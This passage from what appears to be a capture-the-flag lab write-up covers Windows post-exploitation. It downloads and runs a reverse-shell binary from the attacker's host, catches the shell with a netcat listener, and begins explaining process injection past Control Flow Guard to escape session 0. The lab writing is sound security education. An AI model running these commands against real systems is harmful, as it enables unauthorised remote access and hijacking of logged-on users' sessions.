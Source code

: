 By looking at the running processes, we can see a lot of session 1 processes, including Edge, which means that besides us, the user edavies is also logged on locally on the system. We can also confirm this via `qwinsta`:

```
[>] ps
...
908      43    22492      66556       4.75   1544   1 msedge
309      18    97720      23976       0.41   3732   1 msedge
205      14     6832      16952       0.25   4108   1 msedge
245      15     8476      24576       0.56   4932   1 msedge
135       9     1924       6552       0.03   5048   1 msedge
...
[>] qwinsta

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 console           edavies                   1  Active
```

### Session 0 Isolation says Hello

As we are connected via PSRemoting/WinRM we are running in session 0 and as such we can not interact with the logged in users desktop ([Sessions in Windows](https://techcommunity.microsoft.com/t5/ask-the-performance-team/application-compatibility-session-0-isolation/ba-p/372361)). This comes with many restrictions and we can not really get an idea what the user is doing on his desktop. We run a reverse shell via [rcat ](https://github.com/xct/rcat)and confirm that our shell is in session 0:

```
[>] iwr http://10.10.14.7/drop/rcat.exe -outfile
[>] C:\windows\temp\rcat_10.10.14.7_1337.exe 
...
nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.145] 49880
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\temp> ps | findstr rcat
257       6      844       3544       0.00   5376   0 rcat_10.10.14.7_1337
```

One way to get out of session 0 is to inject into a process with a higher session id. This is only possible if we have either `SeDebugPrivilege` or the other process belongs to the same user (which is the case here). In the past you could inject shellcode and run it, but at this point all windows binaries are compiled with Control Flow Guard (CFG) so doing an indirect jump to shellcode is not allowed. To get around that, we will have to use a function that is already loaded and whitelisted. A common way to achive that, is to inject a DLL with LoadLibrary because this one is usually loaded & therefore will not cause any issues with CFG. It also has exactly one argument which is all we have when we want to use CreateRemoteThread to run code in a remote process.

In this case I decided to come up with a custom way that does not involve loading a DLL. If we look at the imports of explorer.exe we can see that it imports [ShellExecuteExW ](https://docs.microsoft.com/en-us/windows/win32/api/shellapi/nf-shellapi-shellexecuteexw)from user32.dll:
